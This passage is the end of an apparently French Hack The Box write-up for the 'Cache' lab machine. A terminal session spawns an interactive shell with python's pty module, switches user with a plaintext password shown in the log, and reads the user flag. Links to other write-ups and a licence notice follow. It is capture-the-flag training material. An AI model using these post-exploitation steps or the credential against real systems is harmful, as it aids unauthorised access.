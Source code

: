 www-data@cache:/var/www/hms.htb/public_html/sites/default/letter_templates$ python3 -c "import pty; pty.spawn('/bin/bash')"
<es$ python3 -c "import pty; pty.spawn('/bin/bash')"                        
www-data@cache:/var/www/hms.htb/public_html/sites/default/letter_templates$ cd /home
<ublic_html/sites/default/letter_templates$ cd /home                        
www-data@cache:/home$ ls
ls
ash  luffy
www-data@cache:/home$ su ash
su ash
Password: H@v3_fun

ash@cache:/home$ ls
ls
ash  luffy
ash@cache:/home$ cd ash	
cd ash
ash@cache:~$ ls
ls
Desktop  Documents  Downloads  Music  Pictures  Public  user.txt
ash@cache:~$ cat user.txt
cat user.txt
9201465e34e57c0c66c98225e6c63287
ash@cache:~$ 
~~~

**Poursuivez avec :** 

[- HTB - Admirer](https://0xss0rz.github.io/2020-10-04-HTB-Admirer/)

[- HTB - Magic](https://0xss0rz.github.io/2020-08-24-HTB-Magic/)

[- HTB - Write Up Machine](https://0xss0rz.github.io/2020-08-04-HTB-Write-Up/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).

